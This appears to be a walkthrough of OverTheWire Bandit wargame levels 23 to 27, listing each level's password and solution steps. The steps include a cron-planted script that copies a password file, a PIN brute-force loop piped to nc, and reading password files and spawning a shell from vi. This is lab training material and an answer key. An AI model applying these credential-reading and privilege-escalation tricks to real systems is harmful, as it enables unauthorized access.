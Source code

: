 **Username** : bandit23  
**Password** : `QYw0Y2aiA672PsMmh9puTQuhoz8SyR2G`

In `/usr/bin/cronjob_bandit24` there will be script running.  
To get the write a script in `/var/spool/bandit24/`  

```bash
#!/bin/bash

cat /etc/bandit_pass/bandit24 > /tmp/sudhanlee/pass.txt

```
Now create `/tmp/sudhanlee/pass.txt` with full permission  

`cat pass.txt`

<------------------------------------------------------------------------------------------------------------------->

### Level 24 - 25

**Username** : bandit24  
**Password** : `VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar`

create a script in `tmp` directory and save the pin combination and pass it as input to `nc`.  
```bash
#!/bin/bash

for i in {0000..9999}
do
	echo "VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar $i"
done
```

`chmod +x script.sh && ./script.sh > pins.txt && nc localhost 30002 < pins.txt`

<------------------------------------------------------------------------------------------------------------------->

### Level 25 - 26

**Username** : bandit25  
**Password** : `p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d`

Reduce the screen size very small until you see `(more)`.  
`v`  
`:r /etc/bandit_pass/bandit26`

<------------------------------------------------------------------------------------------------------------------->

### Level 26 - 27

**Username** : bandit26  
**Password** : `c7GvcKlw9mC7aUQaPx7nwFstuAIBw1o1`

Create a shell in the `vi` editor of bandit26 by,  
`:set shell=/bin/bash`  
`shell`  
After getting shell follow **Level 19 - 20**  
